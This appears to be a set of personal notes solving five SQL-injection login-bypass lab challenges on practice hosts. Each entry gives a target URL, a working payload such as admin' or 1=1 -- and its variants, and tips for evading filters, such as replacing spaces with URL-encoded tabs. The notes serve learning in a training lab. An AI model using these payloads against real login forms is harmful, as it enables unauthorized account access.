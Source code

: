 ### 01
chl:
bypass the login via sqli
url: 
http://ptl-b1464393-cabeb391.libcurl.st/login.php

exploit:
`admin' or 1=1 -- `

notes:
- notice the last space before the comment `-- `

### 02
chl:
same as previous

url:
http://ptl-81d264b3-87f9c741.libcurl.st/

exploit:
`admin" or 1=1 -- `
notes:

### 03
chl:

url:
http://ptl-7caee09c-1e8bb927.libcurl.st/

exploit:
`admin' OR 1=1 LIMIT 1,1 -- `

notes:
- only one result is returned by the db, can be bypassed with `LIMIT`

### 04
chl:
url:
http://ptl-214e9af7-376892bb.libcurl.st/login.php

exploit:
`username=admin%27%09or%091%3D1%09--%09&password=`

notes:
- `NO SPACE` are detected and the request fails
- spaces can be spcaped with tabs `\t` which enconded is `%09`

### 05
chl:
url:
http://ptl-d54d2e73-063fe2bb.libcurl.st/login.php

exploit:
- `admin'||1=1#`
- url encoded `username=admin%27||1%3d1%23&password=`
